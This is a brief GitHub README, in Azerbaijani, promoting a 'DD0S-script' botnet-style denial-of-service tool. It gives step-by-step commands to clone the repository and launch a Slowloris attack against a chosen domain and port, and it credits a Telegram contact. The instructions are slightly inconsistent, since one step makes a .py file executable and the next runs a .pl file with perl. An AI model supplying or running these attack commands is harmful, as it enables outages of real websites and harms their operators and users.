 # DD0S-script
Botnet Gucunde Dos Script

\\\ Hazirladi : https://t.me/xtogen ///

istifade qaydasi:

git clone https://github.com/x4og3n/DD0S-script

cd DD0S-script

chmod +x Slowloris.py

perl Slowloris.pl -dns www.example.com <port>
